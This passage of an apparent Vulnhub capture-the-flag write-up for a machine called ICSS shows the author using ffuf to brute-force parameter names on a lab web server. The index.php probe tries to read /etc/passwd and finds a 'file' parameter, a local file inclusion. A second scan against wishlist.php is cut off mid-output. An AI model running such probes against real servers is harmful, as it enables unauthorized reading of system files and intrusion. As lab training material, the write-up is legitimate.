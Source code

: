 I tried with that parameter as page as it was given I was not able to accss the files so I bruteforced the parameter and I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/ICSS]
└─$ ffuf -c -mc 200,301,302,401 -fc 404,500,401 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://10.0.2.65/index.php?FUZZ=/etc/passwd' -fs 667 -o ffuf_parameter

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.65/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Output file      : ffuf_parameter
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302,401
 :: Filter           : Response size: 667
 :: Filter           : Response status: 404,500,401
________________________________________________

file                    [Status: 200, Size: 2389, Words: 218, Lines: 63, Duration: 4ms]
:: Progress: [4723/4723] :: Job [1/1] :: 127 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```
{: .nolineno}
{: .nolineno}

Now I also looked for parameter if possible in `wishlist.php` file and I got hit →

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/ICSS]
└─$ ffuf -c -mc 200,301,302,401 -fc 404,500,401 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://10.0.2.65/wishlist.php?FUZZ=' -fs 106 -o ffuf_parameter

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.65/wishlist.php?FUZZ=
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Output file      : ffuf_parameter
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302,401
```